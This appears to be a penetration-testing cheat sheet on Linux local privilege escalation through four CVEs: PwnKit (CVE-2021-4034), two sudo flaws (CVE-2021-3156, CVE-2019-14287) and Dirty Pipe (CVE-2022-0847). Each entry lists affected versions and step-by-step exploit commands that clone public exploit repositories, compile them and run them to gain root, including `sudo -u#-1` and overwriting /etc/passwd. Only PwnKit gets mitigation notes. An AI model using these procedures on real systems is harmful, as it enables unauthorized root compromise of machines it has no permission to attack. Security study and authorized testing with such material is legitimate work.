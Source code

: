 # Recent CVEs

## **PWNKit - CVE-2021-4034**

* **Reference:** [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
* **Affected Versions:** All Polkit versions from 2009 onwards are vulnerable
* **Exploit PoC:**
  1. `git clone https://github.com/arthepsy/CVE-2021-4034.git`
  2. `gcc cve-2021-4034-poc.c -o pwnkit`
  3. `./pwnkit`
* **Mitigation:**
  1. Patch polkit
  2. If no patches are available for your system, remove the SUID bit from the pkexec binary

***

## **Weak Sudo Versions - CVE-2021-3156**

* **Reference:** [https://nvd.nist.gov/vuln/detail/cve-2021-3156](https://nvd.nist.gov/vuln/detail/cve-2021-3156)
* **Affected Versions:** `1.8.31 - Ubuntu 20.04` `1.8.27 - Debian 10` `1.9.2 - Fedora 33` and others
* **Exploit PoC:**
  1. `git clone https://github.com/blasty/CVE-2021-3156`
  2. `cd git-folder`
  3. `make`
  4. Check target OS version: `cat /etc/lsb-release`
  5. Check available exploit targets: `./sudo-hax-me-a-sandwich`
  6. Exploit the target OS: `./sudo-hax-me-a-sandwich target-number`

***

## **Weak Sudo Version (prior to 1.8.28) - CVE-2019-14287**

* **Reference:** [https://www.sudo.ws/security/advisories/minus\_1\_uid/](https://www.sudo.ws/security/advisories/minus\_1\_uid/)
* **Affected Versions:** `sudo` versions prior to `1.8.28`
* **Exploit Prerequisites:**
  1. The current user needs to be part of the `sudoers` group
  2. The current user needs to be able to run any command as `(ALL)`
* **Exploit PoC:**
  1. Check sudo permissions: `sudo -l`
  2. Suppose the output of the previous command is `ALL=(ALL) /usr/bin/id`
  3. Run the command `id` as root: `sudo -u#-1 id`

***

## **Dirty Pipe - CVE-2022-0847**

* **Reference:** [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
* **Affected Versions:** All kernels from version 5.8 to 5.17
* **Exploit Prerequisites:** This vulnerability allows a user to write to arbitrary files as long as he has read access to these files
* **Exploit PoC:**
  1. Check kernel version: `uname -r`
  2. `git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git`
  3. `cd git-folder`
  4. `bash compile.sh`
  5. \[Option1] Modify the `/etc/passwd` file and get a shell: `./exploit-1`
  6. \[Option2] Identify a SUID binary using `find / -perm -4000` and run `./exploit-2` to leverage that binary file
